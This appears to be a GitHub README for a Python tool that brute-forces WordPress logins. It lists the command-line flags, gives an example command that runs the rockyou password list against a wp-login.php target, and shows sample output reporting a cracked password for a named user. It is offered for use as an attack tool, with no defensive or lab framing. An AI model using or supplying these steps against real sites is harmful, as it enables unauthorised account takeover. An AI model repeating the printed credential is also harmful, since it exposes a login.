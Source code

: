 # python-bruteforce
python Bruteforce login script for wordpress 🚀🐱‍💻

-p = file path to password list file 
-u = valid usernae 
-t = target address 

target should should be look like this http://site.com/wp-login.php 

example usage : 

python3 bf.py -u admin -p /usr/share/wordlist/rockyou.txt -t http://192.168.254.105/weblog/wp-login.php 

   ____      ____ _________  ____________  ____________                         
   \   \    /   / |_____   | |______     \ |_   ______|  
    \   \/\/   /  |     ___|   |    |   _/  |    ___|         
     \        /   |    |       |    |    \  |    |     
      \__/\__/    |____|       |_________/  |____|    

                ***********************
                * By : intrglctcMilk  *  
                *     -- @tmpts       * 
                *********************** 
     
     [+] Attacking [+]
     
    [+] **** PASSWORD FOUND ***** [+] =====> [wedgie57] for user unclestinky
    [-] Time lapsed : 0.792555570602417 seconds  [-] 
    [-] Number of attempts : 15 [-]



